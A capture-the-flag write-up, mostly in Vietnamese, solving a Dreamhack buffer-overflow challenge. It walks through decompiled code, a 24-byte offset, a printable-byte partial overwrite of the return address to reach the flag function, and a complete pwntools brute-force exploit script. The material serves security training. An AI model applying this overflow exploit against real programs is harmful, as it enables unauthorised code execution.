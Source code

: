 # Decription

[![](images/2025-07-31_05-45.png)](https://dreamhack.io/wargame/challenges/1985)
# Source

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Welcome!");
  sub_1297();
  puts("You are not a hacker!");
  return 0;
}
__int64 sub_1297()
{
  __int64 result; // rax
  _QWORD buf[2]; // [rsp+0h] [rbp-10h] BYREF

  buf[0] = 0LL;
  buf[1] = 0LL;
  num = read(0, buf, 32uLL);
  for ( i = 0; ; ++i )
  {
    result = (unsigned int)num;
    if ( i >= num )
      break;
    if ( *((char *)buf + i) <= ' ' || *((_BYTE *)buf + i) == 127 )
    {
      puts("You are hacker!");
      exit(1);
    }
  }
  return result;
}

void __noreturn sub_1339()
{
  fp = fopen("flag.txt", "rt");
  if ( !fp )
  {
    puts("[!] Flag file error. Send DM to rootsquare...");
    exit(1);
  }
  __isoc99_fscanf(fp, "%s", flag);
  fclose(fp);
  printf("Flag is %s\n", flag);
  exit(0);
}
```

# Problem

```c
Hàm sub_1287() có buf là 1 mảng 2 phần tử khai báo với Qword 8 bytes -> buf 16 bytes. Trong khi đó hàm read nhập vào buf với 32 bytes.

-> bof.

Hàm sub_1339() là hàm in flag.

Nhưng trong input người nhập phải là các ký tự in được.
```

# Solve
Mở gdb và kiểm tra chế độ bảo vệ

```c
gef➤  checksec                                                                                                                                                                                                                              
[+] checksec for '/home/long/Downloads/dreamhack/pwn/asciibof/main'                                                                                                                                                                         
Canary                        : ✘                                                                                                                                                                                                           
NX                            : ✓                                                                                                                                                                                                           
PIE                           : ✓                                                                                                                                                                                                           
Fortify                       : ✘                                                                                                                                                                                                           
RelRO                         : Full 
```
Canary không hoạt động nhưng có PIE, Các địa chỉ sẽ là động.

Tính offset đến ret.

![](images/offset.png)

24 bytes là phần padding và sau đó là ret.

![](images/padding.png)

Dù PIE là địa chỉ động nhưng 12 bits cuối sẽ không thay đổi. Vậy ta chỉ cần thay đổi 12 bits cuối của địa chỉ ret thành địa chỉ của sub_1339()


Trong ida có 2 địa chỉ trong sub_1339() khả quan là mov rbp, rsp và lea rax, modes.

![](images/add.png)

0x133e lấy 12 bits cuối là 33e. Ta cần tìm trong ascii ký tự nào là 0xx3 và 0x3e

-> >S/ >C/ AC/AS ...

payload = b'aaaaaaaaaaaaaaaaaaaaaaaa>S'

Vấn đề là còn 4 bits thì ta hên xui nên cần bruteforce.


![](images/flag.png)

# Full Script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
# def GDB():
#     if not args.REMOTE:
#         gdb.attach(p, gdbscript='''
# b* main+83
#
#         c
#         ''')
#         input()
#
#
# if args.REMOTE:
#     p = remote('')
# else:
#     p = process([exe.path])
# GDB()

q=1
while q==1:
    # p = remote('host3.dreamhack.games', 21274)
    p = process([exe.path])
    payload = b'aaaaaaaaaaaaaaaaaaaaaaaa>S'
    s(payload)
    res = p.recv(timeout=1)
    if b'DH{' in res:
        print(res)
        q=2
    p.close()
p.interactive()
```
